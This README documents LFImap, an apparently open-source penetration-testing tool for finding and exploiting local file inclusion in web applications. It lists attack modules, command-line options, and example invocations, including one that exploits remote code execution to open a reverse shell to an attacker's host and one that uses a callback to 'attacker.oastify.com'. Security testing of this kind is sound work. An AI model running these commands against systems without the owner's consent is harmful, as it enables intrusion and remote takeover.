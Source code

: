 # LFImap
### Local file inclusion discovery and exploitation tool

This project is in pre-alpha stage. Major release 1.0 coming soon with plenty of new abilities and modules.  
Inspired by [SQLmap](https://github.com/sqlmapproject/sqlmap).

#### Main features
- Attack with different modules
    - Filter wrapper file inclusion
    - Data wrapper remote command execution
    - Input wrapper remote command execution
    - Expect wrapper remote command execution
    - File wrapper file inclusion
    - Attacks with path traversal
    - Remote file inclusion
    - Custom polyglot command injection
    - Heuristic scans
        - Custom polyglot XSS, CRLF checks
        - Open redirect check
        - Error-based file inclusion info leak

- Testing modes
    - -U -> specify single URL to test
    - -F -> specify wordlist of URLs to test
    - -R -> specify raw http from a file to test

- Full control over the HTTP request
    - Specification of parameters to test (GET, FORM-line, Header, custom injection point)
    - Specification of custom HTTP header(s) 
    - Ability to test with arbitrary form-line (POST) data
    - Ability to test with arbitrary HTTP method
    - Ability to pivot requests through a web proxy
    - Ability to log all requests and responses to a file
    - Ability to tune testing with timeout in between requests and maximum response time
    - Support for payload manipulation via url and base64 encoding(s)
    - Quick mode (-q), where LFImap uses fewer carefully selected payloads
    - Second order (stored) vulnerability check support
    - Beta/Testing phase CSRF handling support

#### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)

#### -h, --help

```                  
 usage: lfimap.py [-U [url]] [-F [urlfile]] [-R [reqfile]] [-C <cookie>] [-D <data>] [-H <header>]
                 [-M <method>] [-P <proxy>] [--useragent <agent>] [--referer <referer>]
                 [--placeholder <name>] [--delay <milis>] [--max-timeout <seconds>]
                 [--http-ok <number>] [--csrf-param <param>] [--csrf-method <method>]
                 [--csrf-url <url>] [--csrf-data <data>] [--second-method <method>]
                 [--second-url <url>] [--second-data <data>] [--force-ssl] [--no-stop] [-f] [-i]
                 [-d] [-e] [-t] [-r] [-c] [-file] [-heur] [-a] [-n <U|B>] [-q] [-x]
                 [--lhost <lhost>] [--lport <lport>] [--callback <hostname>] [-wT <path>]
                 [--use-long] [--log <file>] [-v] [-h]

LFImap, Local File Inclusion discovery and exploitation tool

TARGET OPTIONS:
  -U [url]                  Single url to test
  -F [urlfile]              Load multiple urls to test from a file
  -R [reqfile]              Load single request to test from a file

REQUEST OPTIONS:
  -C <cookie>               HTTP session Cookie header
  -D <data>                 HTTP request FORM-data
  -H <header>               Additional HTTP header(s)
  -M <method>               Request method to use for testing
  -P <proxy>                Use a proxy to connect to the target endpoint
  --useragent <agent>       HTTP user-agent header value
  --referer <referer>       HTTP referer header value
  --placeholder <name>      Custom testing placeholder name (default is "PWN")
  --delay <milis>           Delay in miliseconds after each request
  --max-timeout <seconds>   Number of seconds after giving up on a response (default 5)
  --http-ok <number>        Http response code(s) to treat as valid
  --csrf-param <param>      Parameter used to hold anti-CSRF token
  --csrf-method <method>    HTTP method to use during anti-CSRF token page visit
  --csrf-url <url>          URL address to visit for extraction of anti-CSRF token
  --csrf-data <data>        POST data to send during anti-CSRF token page visit
  --second-method <method>  Specify method for second order request
  --second-url <url>        Url for second order request
  --second-data <data>      FORM-line data for second-order request
  --force-ssl               Force usage of HTTPS/SSL if otherwise not specified
  --no-stop                 Don't stop using the same testing technique upon findings

ATTACK TECHNIQUE:
  -f, --filter              Attack using filter wrapper
  -i, --input               Attack using input wrapper
  -d, --data                Attack using data wrapper
  -e, --expect              Attack using expect wrapper
  -t, --trunc               Attack using path traversal with wordlist (default "short.txt")
  -r, --rfi                 Attack using remote file inclusion
  -c, --cmd                 Attack using command injection
  -file, --file             Attack using file wrapper
  -heur, --heuristics       Test for miscellaneous issues using heuristics
  -a, --all                 Use all supported attack methods

PAYLOAD OPTIONS:
  -n <U|B>                  Specify payload encoding(s). "U" for URL, "B" for base64
  -q, --quick               Perform quick testing with fewer payloads
  -x, --exploit             Exploit and send reverse shell if RCE is available
  --lhost <lhost>           Local ip address for reverse connection
  --lport <lport>           Local port number for reverse connection
  --callback <hostname>     Callback location for rfi and cmd detection

WORDLIST OPTIONS:
  -wT <path>                Path to wordlist for path traversal modality
  --use-long                Use "src/wordlists/long.txt" wordlist for path traversal modality

OUTPUT OPTIONS:
  --log <file>              Output all requests and responses to specified file

OTHER:
  -v, --verbose             Print more detailed output when performing attacks
  -h, --help                Print this help message

```

### Examples 

#### 1) Utilize all supported attack modules with '-a'.
`python3 lfimap.py -U "http://IP/vuln.php?param=testme" -C "PHPSESSID=XXXXXXXX" -a`  

![LFImap_A](https://github.com/hansmach1ne/LFImap/assets/57464251/7692235a-dfcd-4cab-b0bd-aefdd873cae6)

#### 2) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=testme" -a`

![LFIMAP_POST](https://github.com/hansmach1ne/LFImap/assets/57464251/ebd6b1a4-8990-4a36-b321-871fe9271313)


#### 3) Reverse shell remote command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=testme" -C "PHPSESSID=XXXXXXXX" -a -x --lhost <IP> --lport <PORT>`  

![LFIMAP_revshell](https://github.com/hansmach1ne/LFImap/assets/57464251/5d64244c-8a37-4019-bf2f-8fa7eb6bfd69)



#### 4) Out-of-Band blind vulnerability verbose testing support with '--callback'

`python3 lfimap.py -U "http://IP/index.php?param=testme" -a -v --callback="attacker.oastify.com"`

![LFIMAP_OOB](https://github.com/hansmach1ne/LFImap/assets/57464251/d49d3a80-1c34-49fd-97d8-eb870dae040d)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it, as soon as I can. <br>
Pull requests are welcome.

[!] Disclaimer: LFImap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.

